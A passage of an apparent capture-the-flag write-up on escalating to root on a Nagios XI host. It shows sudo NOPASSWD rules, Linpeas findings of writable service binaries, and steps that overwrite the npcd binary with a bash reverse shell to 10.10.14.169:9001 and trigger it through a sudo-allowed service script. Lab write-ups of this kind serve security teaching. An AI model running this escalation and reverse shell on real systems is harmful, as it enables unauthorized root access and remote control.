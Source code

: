 ```bash
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

Found the following using Linpeas.
```bash
╔══════════╣ Analyzing .service files
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services>                                                                                                                                        
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path                                                                                                                  
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
```

Start by stopping the npcd service.
```bash
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
```

Next up we can replace the content of the npcd file since we have write permissions on it.
```bash
nagios@monitored:~$ cat /usr/local/nagios/bin/npcd
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.169/9001 0>&1'
```

Now, when we start the npcd service it should trigger the script and give us a rev shell.
```bash
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```
